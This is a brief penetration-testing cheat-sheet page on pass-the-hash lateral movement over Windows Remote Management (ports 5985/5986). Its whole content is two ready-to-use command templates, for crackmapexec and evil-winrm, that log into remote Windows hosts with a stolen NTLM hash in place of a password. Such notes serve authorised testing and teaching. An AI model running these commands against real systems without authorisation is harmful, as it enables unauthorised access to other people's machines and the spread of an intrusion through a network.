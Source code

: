 # WinRM/PS Remoting (PTH)

Windows Remote Management (WinRM) is another way to remotely manage computers apart from WMI and other similar protocols and uses a different set of ports. WinRM uses port 5985 (HTTP) or 5986 (HTTPS).

### Tools

{% tabs %}
{% tab title="crackmapexec" %}
```bash
crackmapexec winrm <IP> -u <USER> -H <HASH> -d <DOMAIN>
```
{% endtab %}

{% tab title="evil-winrm" %}
```bash
evil-winrm -i <IP> -u <USERNAME> -H <HASH LM>
```
{% endtab %}
{% endtabs %}
